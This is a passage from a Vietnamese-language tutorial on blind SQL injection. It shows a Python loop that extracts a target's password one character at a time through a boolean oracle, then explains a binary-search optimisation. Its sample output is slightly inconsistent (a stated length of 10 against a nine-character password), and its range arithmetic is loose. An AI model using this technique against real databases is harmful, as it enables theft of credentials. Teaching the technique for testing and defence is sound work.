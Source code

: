 #### **Ví dụ triển khai**

```python
import sys

# Trích xuất mật khẩu của mục tiêu
print("[*] Password = ", end='')

# Lặp qua từng vị trí trong mật khẩu
for i in range(1, length + 1):
    # Kiểm tra từng giá trị ASCII trong phạm vi các ký tự có thể in
    for c in range(32, 127):
        if oracle(f"ASCII(SUBSTRING(password,{i},1))={c}"):
            print(chr(c), end='')  # Chuyển giá trị ASCII về ký tự
            sys.stdout.flush()    # Xuất ký tự ngay lập tức
            break  # Kết thúc kiểm tra khi tìm thấy ký tự đúng

print()  # Xuống dòng sau khi hoàn thành
```

---

**Bước 3: Hoạt động của mã**
1. **Kiểm tra từng ký tự ASCII**:
   - Với mỗi vị trí **`i`**, kiểm tra xem giá trị ASCII của ký tự tại vị trí đó có bằng **`c`** hay không.
   - Nếu đúng, in ký tự ra và chuyển sang vị trí tiếp theo.
2. **Hoàn thiện mật khẩu**:
   - Lặp lại cho đến khi trích xuất toàn bộ các ký tự của mật khẩu.

#### **Kết quả**
Khi chạy đoạn mã:
```
[*] Password length = 10
[*] Password = Maria2023
```

---
6
### **Tối ưu hóa quá trình trích xuất dữ liệu qua Blind SQL Injection**

---

### **1. Tối ưu với thuật toán "Bisection" (Tìm kiếm nhị phân)**

#### **Ý tưởng**
- Chia phạm vi giá trị ASCII (0–127) thành hai nửa bằng cách tính **`midpoint`**.
- Kiểm tra ký tự mục tiêu nằm trong nửa nào bằng cách sử dụng truy vấn **`BETWEEN`**.
- Thu hẹp phạm vi và lặp lại cho đến khi chỉ còn lại một giá trị.

#### **Ví dụ hoạt động**
Tìm ký tự đầu tiên của mật khẩu, ký tự mục tiêu là **`-`** (ASCII = 45):
1. **Lần 1:** Phạm vi 0–127, midpoint = 63 → Ký tự nằm giữa 0–63 → Thu hẹp phạm vi: 0–62.
2. **Lần 2:** Phạm vi 0–62, midpoint = 31 → Ký tự không nằm giữa 0–31 → Thu hẹp phạm vi: 32–62.
3. Tiếp tục lặp lại cho đến khi phạm vi còn 1 giá trị.
